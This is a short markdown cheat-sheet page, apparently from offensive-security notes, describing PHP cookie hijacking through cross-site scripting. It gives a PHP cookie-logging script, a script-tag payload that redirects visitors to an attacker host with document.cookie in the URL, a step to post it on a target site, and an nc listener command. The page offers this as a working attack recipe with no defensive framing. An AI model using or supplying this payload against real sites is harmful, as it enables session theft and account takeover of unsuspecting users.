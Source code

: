 ```yaml
---
title: Cookie Hijacking Examples
desc: Steal user's Cookie values.
tags: [Cookie, Web, XSS]
alts: [XSSCheatSheet]
website:
render_with_liquid: false
---
```


## PHP Cookie Grabbing with XSS

### 1. Create the payload for grabbing the Cookie when the other user will access your machine.

```php
// On attack machine
// Create steal_cookie.php

<?php echo $_GET['cookie']; ?>
```

### 2. Create the script to force users to access your machine with the cookie.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

### 3. POST request with this script in the target website.

### 4. Listen on the port in your machine and wait for the other users access the target web page.

```sh
nc -lvnp 4444
```